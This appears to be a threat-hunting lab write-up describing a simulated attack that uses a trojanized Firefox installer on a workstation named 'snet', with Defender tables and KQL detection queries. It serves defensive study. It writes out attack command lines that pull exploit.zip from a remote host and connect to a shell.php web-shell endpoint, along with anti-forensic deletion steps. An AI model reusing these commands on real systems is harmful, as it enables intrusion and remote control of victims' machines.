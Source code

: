 # Threat Event (Firefox Used as a Web Shell Relay)
**Detection of Unauthorized Firefox Installation and Malicious Activity on Workstation: snet**

## Steps the "Bad Actor" took Create Logs and IoCs:

1. Initial Compromise: Downloaded a trojanized Firefox installer disguised as a legitimate file (`Firefox Installer.exe`) to `C:\Users\employee0\Downloads\` at 04:29:57 UTC from what appeared to be Mozilla's official CDN.

2. First Malicious Execution: Executed  `setup-stub.exe ` (SHA256: `181baa1380e339d8acb6b067c33dd36a5f56e57ee05f7e524b752affaafa75ac `)
   `  setup-stub.exe -no-remote -profile "C:\Users\employee0\Downloads\Temp\MalProfile" http://[192.168.1.100]/exploit.zip `

3. **Web Shell Connection Established**: Re-executed `setup-stub.exe` targeting a web shell endpoint for command-and-control:
    `setup-stub.exe -no-remote -profile "C:\Users\employee0\Downloads\Temp\MalProfile" http://[192.168.1.100]/admin/shell.php`
   
4. Multi-Stage Dropper Deployment: Three sequential download.exe executions occurred from randomized temporary directories, indicating a staged infection process:
- `C:\Users\EMPLOY~1\AppData\Local\Temp\nskC4FD.tmp\download.exe` (05:11:57 UTC)
- `C:\Users\EMPLOY~1\AppData\Local\Temp\nso90D.tmp\download.exe` (05:54:48 UTC - SHA256: `b5284b0e4a5f867a1342a4bc5a7ca21b9c13c49bea1b48624b691473d14dec78`)
- `C:\Users\EMPLOY~1\AppData\Local\Temp\nss9E77.tmp\download.exe` (05:55:31 UTC)
Each executed with: `/LaunchedFromStub /INI=[temp_path]\config.ini`

5. Anti-Forensics: Deleted legitimate `firefox.exe` from `C:\Program Files\Mozilla Firefox\` at 05:55:24 UTC to remove evidence and potentially replace with compromised binary. Deletion initiated by the malicious stub process.

6. Persistence Establishment: Created malicious profile directory  `Temp\MalProfile ` to maintain persistent connection to remote command server and host additional payloads.
---

## Tables Used to Detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicefileevents-table|
| **Purpose**| Used to detect Firefox installer downloads, temporary profile creation, and file deletion (covering tracks). |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to detect ```download.exe```, ```setup-stub.exe```, and malicious command-line arguments used to install and execute payloads.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect external web connections initiated by Firefox and setup-stub to remote IPs (e.g., 172.203.80.23).|

---

## Related Queries:
```kql
// 1. Identify Firefox or suspicious installer download activity
DeviceFileEvents
| where FileName contains "firefox" 
| where DeviceName == "snet"
| project Timestamp, DeviceName, ActionType, FileName, FolderPath, SHA256, InitiatingProcessCommandLine
| order by Timestamp desc

// 2. Detect malicious process executions using setup-stub or download.exe
DeviceProcessEvents
| where DeviceName == "snet"
| where FileName in~ ("setup-stub.exe", "download.exe")
| project Timestamp, DeviceName, AccountName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine, ReportId
| order by Timestamp desc

// 3. Detect Firefox deletion (possible cleanup behavior)
DeviceFileEvents
| where FileName == "firefox.exe"
| where ActionType == "FileDeleted"
| project Timestamp, DeviceName, Account, InitiatingProcessCommandLine, FolderPath, SHA256

// 4. Detect network activity to potential malicious endpoints
DeviceNetworkEvents
| where InitiatingProcessFileName in~ ("setup-stub.exe", "firefox.exe")
| where RemoteIP has_any ("172.203.80.23")
| project Timestamp, DeviceName, InitiatingProcessAccountName, RemoteIP, RemotePort, RemoteUrl
| order by Timestamp desc
```

---

## Created By:
- **Author Name**: Antonio Francisco
- **Author Contact**: https://www.linkedin.com/in/antoniofrancisco-085948210/
- **Date**: October 10, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `October 10, 2025`  | `Antonio Francisco`   
